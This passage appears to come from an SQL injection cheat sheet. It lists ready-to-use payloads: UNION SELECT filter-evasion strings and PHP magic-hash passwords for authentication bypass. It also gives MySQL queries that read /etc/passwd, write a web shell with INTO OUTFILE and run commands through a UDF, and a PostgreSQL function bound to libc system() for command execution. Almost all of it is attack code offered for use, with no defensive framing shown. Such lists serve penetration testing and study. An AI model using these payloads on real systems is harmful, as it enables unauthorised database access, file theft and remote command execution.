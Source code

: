 ```sql
# Length restrictions
' UNION SELECT 1,2,3#
' UNION/**/SELECT/**/1,2,3#
```

### 2. Magic Hashes
```sql
# PHP type juggling with SQL
240610708 (hash starts with 0e)
314282422 (hash starts with 0e)

# Usage in authentication bypass
username: admin
password: 240610708

# If MD5 compared: '0e462097431906509019562988736854' == 0 (True)
```

## Database-Specific Payloads

### 1. MySQL Specific
```sql
# Version detection
SELECT @@version
SELECT version()

# Current user
SELECT user()
SELECT current_user()

# Database name
SELECT database()
SELECT schema()

# File operations
SELECT LOAD_FILE('/etc/passwd')
SELECT 'shell' INTO OUTFILE '/var/www/shell.php'

# Command execution via UDF
CREATE FUNCTION sys_exec RETURNS STRING SONAME 'udf_sys.so'
SELECT sys_exec('id')
```

### 2. PostgreSQL Specific
```sql
# Version detection
SELECT version()

# Current user
SELECT current_user
SELECT user

# Database name
SELECT current_database()

# File operations
COPY (SELECT 'data') TO '/tmp/output.txt'

# Command execution
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT
SELECT system('id')
```